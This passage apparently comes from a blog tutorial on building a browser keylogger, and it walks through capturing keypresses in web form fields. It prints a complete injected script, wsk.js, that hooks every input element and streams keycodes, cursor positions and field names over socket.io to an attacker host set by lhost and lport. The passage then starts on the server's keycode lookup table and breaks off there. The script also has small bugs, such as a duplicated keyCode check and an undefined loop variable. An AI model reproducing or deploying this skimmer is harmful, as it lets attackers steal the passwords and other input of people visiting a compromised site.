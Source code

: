 		the A brown fox jumps over the lazy doge

Fortunately, JavaScript makes it relatively easy to account for all of these cases. Each keypress event has both 'selectionStart' and 'selectionEnd' attributes that correspond to the start and end indexes of the text the user has selected. If the user has no text selected, then the 'selectionStart' and 'selectionEnd' attributes are both set to the position of the cursor. 


The complete wsk.js file should look like this:

{% highlight javascript %}

	function logKeystroke(event) {
	    
		var c = event.keyCode || event.keyCode;
	        
		socket.emit('keydown', {
			'ks' : c,
			'start_pos' : this.selectionStart,
			'end_pos' : this.selectionEnd,
			'shift' : event.shiftKey,
			'alt' : event.altKey,
			'ctrl' : event.ctrlKey,
			'name' : this.getAttribute('name'),
			'type' : this.getAttribute('type'),
			'id' : this.getAttribute('id'),
			'class' : this.getAttribute('class'),
		});
	}

	window.onload = function() {

		all_inputs = document.getElementsByTagName('input');

		for (var i = 0, length = all_inputs.length; i < length; i++) {
	
			element.addEventListener("keydown", logKeystroke);
		}

		namespace = '/keylogger';
{% raw %} 
		socket = io.connect('http://' + '{{ lhost }}' + ':' + '{{ lport }}' + namespace);
{% endraw %}

    	// event handler for new connections
    	socket.on('connect', function() {
    	    socket.emit({ data : 'new connection initiated'});
    	});
	}


{% endhighlight %}

#Keycode lookup table

With our frontend out of the way, it's time to start thinking about how to put together our keylogger's server. Our first task on the backend is to create a system that efficiently translates numerical keycodes and shift combinations into readable characters. To do this, we use a lookup table system that we will implement in the following file:
